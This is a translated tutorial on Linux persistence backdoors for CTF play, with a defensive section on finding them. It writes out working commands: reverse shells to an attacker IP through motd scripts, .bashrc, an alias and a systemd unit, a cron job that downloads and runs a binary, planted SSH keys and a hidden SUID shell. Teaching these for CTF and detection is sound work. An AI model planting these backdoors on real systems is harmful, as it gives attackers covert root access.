# Linux 后门以及在哪里可以找到它们

> 原文：<https://medium.com/geekculture/linux-backdoors-and-where-to-find-them-3b29888bdb98?source=collection_archive---------13----------------------->


Photo by [Dima Pechurin](https://unsplash.com/@pechka?utm_source=medium&utm_medium=referral) on [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral)

在攻防 CTF 中，留下后门是保持对目标系统访问的重要部分。因此，学习一些后门技术是必不可少的，不仅对于攻击者，对于防御者也是如此。

# 后门，是什么？

我不会像[维基百科](https://en.wikipedia.org/wiki/Backdoor_(computing))那样详细，但这里有:

后门程序是一段隐藏的代码、脚本或程序，放置在一个系统上用于持久保存，因此您不必两次利用同一个系统。它只是让你更快和即时进入系统。

现在我们知道了什么是后门，让我们来看看攻击者通常把它们藏在 Linux 系统的什么地方！

为了演示，我将使用 VulnHub 的 [Pinky's Palace](https://www.vulnhub.com/entry/pinkys-palace-v1,225/) 机器作为受害者服务器，让我们假设它已经完全被入侵。

## 1.SSH 密钥

一个 [authorized_keys](https://www.ssh.com/academy/ssh/authorized_keys/openssh) ( `~/.ssh/authorized_keys`)文件包含一个授权用户的列表，这些用户被允许登录到您的服务器中的特定帐户(以公钥的形式)。在这个文件中，攻击者还可以放置他们的公钥来授权自己，并通过 SSH 获得对系统的即时访问。

现在让我们看一下下图，该图显示了获取受害者服务器(Pinky's Palace)根用户访问权限的利用步骤。



Exploiting binary for root access

当然，作为一名攻击者，我不想再次重复所有这些利用步骤来获得 root 访问权限。

因此，在我的攻击机器上，我可以使用以下命令生成一对新的 [SSH 密钥](/risan/upgrade-your-ssh-key-to-ed25519-c6e8d60d3c54)用于后门目的:



Generating SSH keys

它应该生成两个文件:一个是私钥(`backdoor_ssh`)，另一个是公钥(`backdoor_ssh.pub`)。

现在，通过将公钥(`backdoor_ssh.pub`)插入 root 帐户的`authorized_keys`文件，我已经授权自己通过 SSH 获得 root shell。

```
# echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILaxTiK3WJJ422K1yf/9yXFWBeWV6mpZxMEualO2uIul root@kali' > /root/.ssh/authorized_keys
```



Using SSH keys as backdoor

## 2.SSH motd

这是我从名为 [Traceback 的黑客机器中学到的一个很酷的技巧。](https://www.hackthebox.eu/home/machines/profile/233)

**Motd** (每日消息)是当您使用 SSH 登录服务器时出现的横幅。这些消息通常由各种脚本构成，你可以在`/etc/update-motd.d/`下找到(对于大多数基于 Debian 的发行版)。默认情况下，其他用户对该目录没有写权限。

在下图中，只有一个名为`10-uname`的 **motd** 脚本。当我使用 SSH 登录到机器时，脚本的输出被打印出来。



Motd script

作为一个攻击者，我可以放一个新的脚本像 [reverse shell](https://www.techslang.com/definition/what-is-a-reverse-shell/) 作为后门，然后我可以设置一个 netcat 监听器。

```
root@pinkys-palace:/etc/update-motd.d# echo -e '#!/bin/sh\nnc 192.168.2.103 9001 -e /bin/bash &' > 20-backdoor && chmod +x 20-backdoor
```

现在，如果有人 SSH 登录到服务器，后门脚本将被执行，并发送一个外壳访问我的 netcat 监听器。



Backdoor triggered by SSH login

在上图中，我模拟了一个使用低权限帐户的 SSH 登录，但是您注意到了吗，我最终获得了 root 访问权限？

下面是[回答](http://manpages.ubuntu.com/manpages/xenial/en/man5/update-motd.5.htm):

> *……*
> 
> 每次登录时,/etc/update-motd.d/*中的可执行脚本由 pam_motd(8)作为根用户**执行，该信息连接在/var/run/motd 中。脚本执行的顺序由 run-parts(8)–lsbsysinit 选项决定(基本上是字母顺序，有一些注意事项)。**
> 
> *…*

## 3.用户的。bashrc——互动会议

`.bashrc`是伯恩 shell 使用的启动脚本之一，又名`bash`。如果有一个用户使用`bash`作为他们的登录 shell，那么这个`.bashrc`将为他们启动的每个交互会话执行。

以下是触发交互式会话的一些操作:



Actions that triggers interactive session

在上图中，我在我的`.bashrc`中插入了一个非恶意的脚本`echo "I'm triggered"`。但是现在，作为一个攻击者，我可以在那里放一些类似 reverse shell 的东西，我只需要等待有人登录来触发它。

```
pinky@pinkys-palace:~$ echo 'nc 192.168.2.103 9001 -e /bin/bash >/dev/null &' > .bashrc
```



Backdoor triggered by interactive session

在上图中，我从`root`切换到用户`pinky`，并在 pinky 的`.bashrc`文件上放了一个反向 shell。我退出 pinky 的 shell 并立即切换回用户`pinky`来触发一个交互会话。

## 4.用户的。bashrc —别名

作为攻击者，我也可以在用户的别名中设置后门！

下面是一个使用`cd`命令的别名以(再次)反向 shell 的形式创建后门的例子。

```
root@pinkys-palace:~# alias cd='$(nc 192.168.2.103 9001 -e /bin/bash&); cd'
```



Backdoor using alias

以下是其他一些别名后门:

*   [https://github.com/nisay759/sudo-backdoor](https://github.com/nisay759/sudo-backdoor)
*   [https://gist.github.com/ahhh/1d4bf832c5a88cc75adb](https://gist.github.com/ahhh/1d4bf832c5a88cc75adb)

## 5.克朗·乔布斯

Cron 是 Linux/UNIX 类操作系统的一个特性，可用于定期执行特定的作业或任务，就像 Windows 中的任务调度程序一样。

下面是一个使用 Cron job 的后门的例子。

```
root@pinkys-palace:~# echo '* * * * * root cd /tmp; wget 192.168.2.103/backdoor && chmod +x backdoor && ./backdoor' > /etc/cron.d/backdoor
```

上面的任务是从我的攻击机器上下载一个叫做“后门”的恶意二进制文件，然后后门每分钟执行一次。



Cron backdoor

## 6.后门即服务

攻击者还可以创建后门服务(BaaS)。以下是单个文件(`backdoor.service`)中的 BaaS 示例:

```
[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/192.168.2.103/9001 0>&1"
[Install]
WantedBy=multi-user.target'
```

当服务启动时，它会向攻击者发起一个反向外壳。

```
root@pinkys-palace:/etc/systemd/system# systemctl start backdoor.service
```



BaaS

它可以在引导时通过发出以下命令来启用:

```
root@pinkys-palace:/etc/systemd/system# systemctl enable backdoor.service
```

## 7.SUID

这个帖子的最后一个是 [SUID](https://en.wikipedia.org/wiki/Setuid) 。SUID 允许其他用户以可执行文件所有者的身份运行可执行二进制文件。

作为一个例子，我可以复制一个 bash 二进制文件(root 所有)，名为`.backdoor`(注意这个点)，将 SUID 权限设置为一个低权限用户，这个用户已经受到了威胁。



SUID backdoor on low privilege user

为什么我加了一个点？有些人倾向于只使用`ls -l`而不使用`ls -la`，这成为攻击者在点文件中放置后门的优势。

# 蓝队这边

在进一步阅读之前，我要声明，如果你的服务器(irl)遭到黑客攻击，最好恢复服务器的备份或完全从头开始重建，因为在现实世界中，这些后门可能会被混淆，并且**会将**与其他技术结合起来(更不用说可能还有 rootkit)，这使得检测/发现变得很困难。

此外，我在这里分享的可能不是那么有效，但这里是我通常如何处理 CTF 攻防中的后门。

## SSH 密钥和. bashrc。

确保定期检查所有用户的`authorized_keys`文件。

下图中，有一个公钥是外国主机名`kali`而不是`pinkys-palace`，那么你应该怀疑它。



Suspicious public key in authorized_keys file

嗯，实际上，攻击者可能会欺骗它，让它看起来像是合法的。

我在这里的解决方法是，为什么我们不创建一个包含所有`authorized_keys`文件的“框架”文件，并设置一个 cronjob 来自动将这些文件恢复到原始状态，我可以通过`scp`远程执行这个操作。在`.bashrc`处理后门也可以用这个。

> 在`/etc/skel`可以找到`.bashrc`的骨架文件。

## SSH motd

它并不总是放在`/etc/update-motd.d/`下，但要确保 **motd** 目录只对 root 可写，注意默认的 **motd** 文件列表，并应用与上面相同的东西(框架文件)，因为攻击者可能在原始文件中插入了后门。

我们还可以使用时间戳进行一些“取证”:

```
$ ls --full-time
```

例如，下图中时间戳为`000000000` (nano)的这些文件很可能没有被修改，仍然处于原始状态。



Nano timestamp

插入非恶意行后，时间戳发生了变化。从这里开始，可以很有把握地假设有人/什么东西修改了它。



Timestamp changed

## Cronjobs 和服务

对于这一个，监控是关键。我们可以使用`netstat`或`ss`命令和`ps`命令来监控网络套接字和进程。如果一个程序有一个 IP 和端口作为它的参数，请对它保持怀疑。还要确保这些命令不会被攻击者使用别名(就像[这个](https://github.com/iamckn/backdoors/blob/master/bd_hide.sh)一样)。

为此，我们可以使用以下命令查找任何不需要的开放端口:

```
$ netstat -antp | grep LISTEN
```

要查找可疑的连接，我们可以使用以下命令:

```
$ netstat -antp | grep ESTABLISHED
```



Suspicious connections

有时，反向外壳后门的状态既不是 ESTABLISHED 也不是 LISTEN 而是 SYN_SENT。当后门无法联系到攻击者时，就会发生这种情况。为此，我们可以使用以下命令:

```
$ netstat -antp | grep SYN_SENT
```

接下来，我们可以使用以下命令检查每个用户的 crontab:

```
$ for user in $(cat /etc/passwd | cut -f1 -d: ); do echo $user; crontab -u $user -l; done# Check for users who have login shell only
$ for user in $(cat /etc/passwd | grep sh$ | cut -f1 -d: ); do echo $user; crontab -u $user -l; done
```

还有`ps -f`命令，它非常擅长可视化流程树。例如，在下图中，我们可以很容易地判断出一直打开 HTTPS 端口(443)的“罪魁祸首”可能在`.bashrc`文件中，因为它在我们每次启动 bash shell(交互式会话)时都会被触发。



Visualizing process tree

如果您喜欢详细的视图，可以考虑使用`ps auxfww`来显示带有用户名、TTY 和广泛输出的流程树。

我还喜欢使用`watch`命令来主动监控网络套接字和进程。

```
# monitor process
  $ watch -n 1 "ps auxfww | grep suspected-process"
# monitor net socket
  $ watch -n 1 "netstat -antp"
# monitor net socket with sus IP
  $ watch -n1 "ss -atp | grep '10.14\|168.24'"
```

对于作为服务运行的后门，我们可以尝试用下面的命令列出所有的服务，看看是否有不需要的服务。

```
$ systemctl list-unit-files --type=service
```

或者我们也可以直接访问服务目录。这取决于服务器使用的是什么操作系统，但是我们可以开始查看`/lib/systemd/`并按照修改日期对它们进行排序。

```
$ find /lib/systemd -type f -iname '*\.service' -exec ls -lrt "{}" +;
```

## 寻找 SUID

为了找到一些可疑的 SUID，我们可以使用`find`命令。它还可以检测以点开始的 SUID！

```
root@pinkys-palace:/etc/update-motd.d# find / -type f -perm 4755 2>/dev/null
```


Finding SUID binary

这里更新一个，用`-perm 4755`，你将找不到权限设置为`4755`、`4765`、`4701`等的文件。

因此，我们可以将其更改为`-perm -u=s`，它将查找 SUID 位(即`s` / `4`部分)。

```
$ find / -type f -perm -u=s 2>/dev/null
```

好了，这个帖子就这么多了，希望你喜欢。

*最初发布于:*[*https://fahmifj . github . io/blog/Linux-back doors-and-where-to-find-them/*](https://fahmifj.github.io/blog/linux-backdoors-and-where-to-find-them/)*(2022 年 14 月 0 日更新)*

## 参考

*   [https://www . tech slang . com/definition/what-is-a-reverse-shell/](https://www.techslang.com/definition/what-is-a-reverse-shell/)
*   [https://medium . com/risan/upgrade-your-ssh-key-to-ed 25519-c 6 E8 d 60d 3c 54](/risan/upgrade-your-ssh-key-to-ed25519-c6e8d60d3c54)
*   【https://blog.g0tmi1k.com/2011/08/kioptrix-level-3/】
*   [https://airman 604 . medium . com/9-ways-to-back door-a-Linux-box-f 5 f 83 BAE 5a 3c](https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c)
*   [https://gist.github.com/ahhh/1d4bf832c5a88cc75adb](https://gist.github.com/ahhh/1d4bf832c5a88cc75adb)